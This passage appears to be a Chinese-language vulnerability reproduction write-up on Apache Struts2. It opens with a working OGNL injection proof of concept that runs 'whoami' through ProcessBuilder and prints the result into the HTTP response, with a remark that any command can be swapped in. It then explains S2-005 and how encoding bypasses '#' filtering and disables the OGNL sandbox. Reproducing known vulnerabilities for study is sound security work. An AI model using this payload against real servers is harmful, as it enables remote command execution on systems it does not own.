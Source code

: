 查看权限poc

> %{
>
> \#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
>
> \#b=#a.getInputStream(),
>
> \#c=new java.io.InputStreamReader(#b),
>
> \#d=new java.io.BufferedReader(#c),
>
> \#e=new char[50000],
>
> \#d.read(#e),
>
> \#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
>
> \#f.getWriter().println(new java.lang.String(#e)),
>
> \#f.getWriter().flush(),#f.getWriter().close()
>
> }
>

![image-20201216131838642](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216131838642.png)

执行任意命令时将上面poc里whoami的命令替换



## 0X02 S2-005复现

**原理**：s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys
//会被转化成
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码


